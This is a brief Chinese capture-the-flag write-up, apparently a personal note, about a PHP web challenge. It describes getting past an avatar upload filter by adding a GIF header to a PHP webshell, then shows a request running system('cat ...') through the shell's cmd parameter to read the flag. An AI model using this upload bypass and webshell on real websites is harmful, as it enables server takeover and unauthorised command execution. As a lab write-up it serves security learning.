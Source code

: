 ![](<./img/Pasted image 20221231095511.png>)

---
首页长这样

![](<./img/Pasted image 20221231095544.png>)

注册账号并登录

![](<./img/Pasted image 20221231100127.png>)

这里可以上传头像

没想到加上`GIF`头之后就能顺利上传木马

![](<./img/Pasted image 20221231101933.png>)

```php
/uploads/d41d8cd98f00b204e9800998ecf8427e.php?cmd=system('cat /Flag_aqi2282u922oiji');
```

![](<./img/Pasted image 20221231101816.png>)

#Web #PHP #文件上传 #文件 